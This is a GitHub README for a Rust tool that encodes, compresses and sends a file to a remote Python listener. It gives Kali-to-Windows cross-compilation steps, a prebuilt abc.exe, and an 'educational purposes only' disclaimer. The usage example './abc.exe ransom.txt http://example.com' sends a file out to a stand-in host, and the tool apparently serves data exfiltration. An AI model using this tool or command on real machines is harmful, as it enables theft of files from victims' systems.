 # File Sender

This Rust project allows you to send a file to a specified remote server. The file is first encoded, compressed, and then transmitted with custom headers to the server. With a python server.py, it will decompress, decode and save bytes into new file.
## Installation
### Prerequisites

- Rust and Cargo: Install Rust using the official installer.
    ```bash
    curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
    ```
**Note: If you have already installed Rust on Windows, it may work with Visual Studio linker. But I prefer linux for it, so I need ***mginw*** to link and compile source **
- Cross-compilation tools (for building Windows executables on Linux):
    ```bash
    sudo apt-get update
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

### Setting Up the Project

1. Clone the repository or create a new Rust project:
    ```bash
    git clone <repository_url>
    cd <repository_directory>
    ```

2. Build the project:
    ```bash
    cargo build --release
    ```

### Cross-Compilation for Windows (On Kali Linux)

To build a Windows executable on Kali Linux, follow these steps:

1. Install the necessary tools and configure Cargo for cross-compilation:
    ```bash
    sudo apt-get install gcc-mingw-w64-x86-64
    rustup target add x86_64-pc-windows-gnu
    ```

2. Create or edit the `.cargo/config` file in your project directory:
    ```bash
    mkdir -p .cargo
    nano .cargo/config
    ```

    Add the following configuration:
    ```toml
    [target.x86_64-pc-windows-gnu]
    linker = "x86_64-w64-mingw32-gcc"
    ```

3. Build the project for Windows:
    ```bash
    cargo build --release --target x86_64-pc-windows-gnu
    ```

    The resulting executable will be in the `target/x86_64-pc-windows-gnu/release` directory.

## Usage

### Running the Application

Run listening server on remote machine:
```bash
python3 server.py
```

To run the application on local, use the following command:

```bash
./<executable_name> <file_path> <remote_server>
```
   - <file_path>: Path to the file you want to send.
   - <remote_server>: The URL of the remote server where the file should be sent.
Example:
```bash
./abc.exe ransom.txt http://example.com
```
**Note**: 
- file which is sent will be saved at ***output/*** directory on server.
- There is a prebuilt file named ***abc.exe*** that is available to use (no need to compile anymore)

> [!CAUTION]
> There is no clean code, no penetration test provided, this repo is for educational purposes only. Do not use for illegal purposes. I'm never responsible for illegal use. Educational purpose only!
## Support me (optional)
If you find it useful, you can support me with a cup of coffee.
[![ko-fi](https://ko-fi.com/img/githubbutton_sm.svg)](https://ko-fi.com/Y8Y2123O0D)
